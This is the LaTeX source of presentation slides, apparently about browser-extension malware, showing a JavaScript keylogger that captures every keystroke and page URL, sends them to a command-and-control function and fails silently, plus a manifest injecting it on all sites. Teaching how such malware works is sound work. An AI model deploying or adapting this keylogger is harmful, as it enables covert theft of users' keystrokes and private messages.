 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
  \frametitle{Classic Malware Features}
  \framesubtitle{Where are they?}
  \begin{center}
    \includegraphics[scale=0.3]{dwight}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript Keylogger}
  \framesubtitle{Stealing your Facebook conversations}
  \begin{center}
    \begin{tcolorbox}[title=keylogger.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        document.onkeydown = function(e){  //On keydown event
          try {
            let data = {                   //Capture the key pressed
              "keylog":{
                timestamp: Date.now(),
                key: e.key,
                uri: window.location.href
              }
            }
            cnc(data, function(data){      //Send the data to CnC server
              return true;
            });
            return true;
          } catch(error){
            return false;                  //Try to fail silently
          }
        };
        
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript Keylogger}
  \framesubtitle{The Manifesto}
  \begin{center}
    \begin{tcolorbox}[title=manifest.json,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        {
          "matches":[
            "<all_urls>"
          ],
          "js": [
            "keylogger.js"
          ]
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
